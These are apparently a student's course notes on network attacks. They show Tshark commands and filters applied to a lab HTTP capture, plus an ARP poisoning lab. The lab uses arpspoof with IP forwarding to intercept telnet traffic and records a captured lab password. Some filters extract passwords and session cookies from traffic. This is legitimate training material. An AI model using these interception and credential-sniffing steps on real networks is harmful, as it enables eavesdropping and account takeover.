 - network-based attack
	- not related to operating system but attacks on network 
		- arp 
		- dhcp
		- smb 
		- ftp
		- telnet 
		- ssh 
- man in the middle attack  
![[Pasted image 20230718125000.png]]


###  Tshark 
**Tshark** is a command line tool created by the Wireshark team and shares the same powerful parsing engine as Wireshark. It is capable of doing most things we've come to love Wireshark for, but with the "from command line" advantage. This makes it ideal for batch analysis, offline processing and routine automation of traffic analysis tasks. In this course, we will explore many of these capabilities. It is assumed you have a basic working knowledge of Wireshark and traffic analysis.

check what version we have 
- command: tshark -v 
we want to see the manual but only one page at the time 
- command: tshark -man | more 
get a list of interfaces we can interact with 
- command: tshark -D 
select the eth interface 
- command: tshark -i eth0 
when you have a pcap 
- tshark -r pcapfilename 
run statistics on pcap 
- command: tshark -r pcap -z io,phs -q 


-- Lab --- 
**Set A:**
1. Which version of Tshark is installed in the lab? 
   
   student@attackdefense:~$ tshark -v
TShark (Wireshark) 2.6.1 (Git v2.6.1 packaged as 2.6.1-0ubuntu2~16.04.0)
   
2. Find all Tshark supported network interfaces for monitoring
student@attackdefense:~$ tshark -D
1. eth0
2. any
3. lo (Loopback)
4. ip_vti0
5. nflog
6. nfqueu
3. What is the Tshark command to sniff on eth0? Why did this command fail?
student@attackdefense:~$ tshark -i eth0
Capturing on 'eth0'
tshark: The capture session could not be initiated on interface 'eth0' (You don't have permission to capture on that device).
Please check to make sure you have sufficient permissions, and that you have the proper interface or pipe specified.0 packets captured

**Set B:**

1. Tshark supports PCAP files. The lab environment has a sample file: HTTP_traffic.pcap. How can you read this file in Tshark and display the packet list on the console?
   
   tshark -r pcapfilename 
   
2. How can you find the total number of packets in HTTP_traffic.pcap?
   
   student@attackdefense:~$ tshark -r  HTTP_traffic.pcap | wc -l 
  30418  
  
1. Tshark command to read the first 100 packets only from HTTP_traffic.pcap?
   
tshark -r HTTP_traffic.pcap -c 100


4. Print the list of protocols in HTTP_traffic.pcap 
![[Pasted image 20230718141506.png]]


### Filtering Basics 

apply a filter that will look at http
- command: tshark -r HTTP_traffic.pcap -Y 'http'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
- command: tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e ttp.request.full_uri' | more 
- command:  tshark -r HTTP_traffic.pcap -Y 'http contains password'
- command:  tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www\.2nos.com' -Tfield -e ip.dst 
lets look at traffic between two IP addresses 
- command: tshark -r HTTP_traffic.pcap -Y 'ip.src\==ip && ip.dst\==52.XX'  
traffic between ip 
- command: tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.x.x.x.' -Tfields -e ip.src -e http.cookie 
see which browser we are seeing 
- command:  tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.x.x.x && http' -Tfields -e http.user_agent 

-- lab --- 

Set A:
1. Command to show only the HTTP traffic from a PCAP file? 
   
   tshark -r HTTP_traffic.pcap -Y 'http' 
2. Command to show only the IP packets sent from IP address 192.168.252.128 to IP address 52.32.74.91?
   
   tshark -r HTTP_traffic.pcap -Y 'ip.src\==192.168.252.128 && ip.adr\==52.32.74.91'
3. Command to print only packets containing GET requests?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET'
   
4. Command to print only packets only source IP and URL for all GET request packets?
   
tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET
   -Tfields -e frame.time -e ip.src -e http.request.full_uri'

Set B:
1. How many HTTP packets contain the "password" string? 4 
    tshark -r HTTP_traffic.pcap -Y 'http contains password' 
   
   
2. . What is the destination IP address for GET requests sent for New York Times (www.nytimes.com)?
   tshark -r HTTP_traffic.pcap -Y 'http.request.method\==GET && http.host\==www.nytimes.com' -Tfields -e ip.dst 

1. What is the session ID being used by 192.168.252.128 for Amazon India store (amazon.in)?
   
 tshark -r HTTP_traffic.pcap -Y 'ip contains amazon.in && ip.src\==192.168.252.128' -Tfields -e ip.src -e http.cookie 

2082758401l 

1. What type of OS the machine on IP address 192.168.252.128 is using (i.e. Windows/Linux/MacOS/Solaris/Unix/BSD)? Bonus: Can you also guess the distribution/flavor?

192.168.252.128 Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0 


### Arp Poisoning 


Run an nmap on the target subnet 
open wireshark on eth1
ping one target ip
- command: echo 1 > /proc/sys/net/ipv4/ip_forward 
lets start with arpspoof - "ip1" with the IP address of the target you want to intercept or spoof, and "ip2" with the IP address of the host you want to redirect the traffic to. 
- command: arpspoof -i eth1 -t ip1 -r ip2 

telnet is not encrypted so look for those credentials and use it to login 

-- Lab -- 

Try to intercept network traffic and steal `telnet` credentials by performing an ARP poisoning attack. 

ine login: admin
.
admin

Password: MyS3cr3tP455
.

Nmap scan report for 10.100.13.36
Host is up (0.00049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
23/tcp open  telnet
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)






